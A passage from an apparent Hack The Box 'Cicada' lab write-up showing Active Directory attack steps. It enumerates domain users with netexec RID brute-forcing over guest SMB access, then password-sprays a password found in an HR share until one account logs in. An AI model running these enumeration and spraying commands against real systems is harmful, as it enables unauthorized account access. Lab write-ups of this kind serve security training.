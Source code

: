### User Enumeration

Remembering that we have guest access to SMB, let's try using `netexec` to enumerate the users on this machine. Unfortunately, the standard `--users` flag doesn't work, so we have to use `--rid-brute`.

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ netexec smb 10.129.84.61 -u guest -p '' --rid-brute
SMB         10.129.84.61    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.84.61    445    CICADA-DC        [+] cicada.htb\guest: 
[...snip...]
SMB         10.129.84.61    445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.84.61    445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.84.61    445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
[...snip...]
SMB         10.129.84.61    445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
[...snip...]
SMB         10.129.84.61    445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.84.61    445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.84.61    445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.84.61    445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
[...snip...]
SMB         10.129.84.61    445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Now we've got a list of usernames... let's pull them out and place them in `users.txt`.

### Password Spraying

Let's try that password from the file in the `HR` SMB share with all of the usernames we've found. Looks like we have a new employee who hasn't changed his password yet.

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ netexec smb 10.129.84.61 -d cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.129.84.61    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.84.61    445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.84.61    445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.84.61    445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.84.61    445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.84.61    445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.84.61    445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.84.61    445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```
